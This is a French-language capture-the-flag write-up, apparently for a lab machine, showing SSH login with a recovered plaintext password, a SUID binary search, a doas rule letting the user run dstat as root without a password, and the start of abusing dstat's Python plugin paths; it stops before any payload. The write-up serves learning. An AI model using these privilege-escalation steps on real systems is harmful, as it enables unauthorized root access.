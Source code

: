 #### SSH

On peut se connecter en SSH avec ces identifiants :
```
ssh player@10.10.11.194
Enter Password: PlayerOftheMatch2022
```

#### Root Shell

##### sudo / doas

On liste les fichiers SUID :
```
$ find / -type f -perm -4000 -ls 2>/dev/null

/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent
```
* On trouve `/usr/local/bin/doas` :
	* Qu'est ce que ça fait ?
	* Situé dans `/usr/local` => `local` est un endroit où le packet manager ne laisse rien télécharger ici. Donc c'est surement l'administrateur qui l'a mis la 

```
$ man doas

DOAS(1)                                                        
BSD General Commands Manual

NAME
     doas — execute commands as another user
```
* `doas` est une alternative à `sudo` utilisée sur les systèmes BSD.

##### Configuration de doas

```
$ find / 2>/dev/null | grep "doas"

/usr/local/etc/doas.conf
```

```
$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

On peut donc executer la commande `dstat`  en tant que root

##### Exploitation de dstat

dstat est un outil permettant d'obtenir des statistiques sur le système. En regardant la page `man`, il y a une section sur les plugins python qui dit :
```
Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```
